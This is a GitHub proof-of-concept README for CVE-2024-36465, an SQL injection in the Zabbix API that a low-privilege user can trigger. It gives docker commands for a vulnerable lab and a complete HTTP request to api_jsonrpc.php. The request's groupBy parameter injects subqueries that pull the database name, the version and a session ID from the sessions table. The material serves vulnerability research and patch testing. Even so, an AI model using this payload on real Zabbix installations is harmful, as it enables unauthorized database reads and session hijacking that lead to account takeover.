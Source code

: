# CVE-2024-36465-Poc

## SQL injection in Zabbix API (CVE-2024-36465)

### Description
A low privilege (regular) Zabbix user with API access can use SQL injection vulnerability in include/classes/api/CApiService.php to execute arbitrary SQL commands via the groupBy parameter.

### Link
https://support.zabbix.com/browse/ZBX-26257

### Build:
Link: https://wiki.nhanhoa.com/kb/zabbix-cai-dat-zabbix-7-0-server-bang-docker-container/

Step 1: 
``` 
docker pull tudv1989/zabbix70:latest
```
Step 2:
```
docker run -itd --name=zabbix --restart always -p 80:80 -p 10051:10051 -e DBNAME=zabbixdb -e DBUSER=zabbix_username -e DBPASSWD=zabbix_password tudv1989/zabbix70
```


# Poc

```
POST /api_jsonrpc.php HTTP/1.1
Host: <Host>
Authorization: Bearer {{hash}}
Content-Length: 240
Content-Type: application/json;charset=UTF-8

{
 "jsonrpc": "2.0",
    "method": "item.get",
    "params": {
        "output": ["itemid", "name"],
        "groupBy": ["hostid,(select database()),(select version()),(SELECT sessionid FROM sessions LIMIT 0,1)"]
    },
    "id":0
}

```
![image](https://github.com/user-attachments/assets/f4543415-fc6e-4e13-860c-481c89b2c58d)
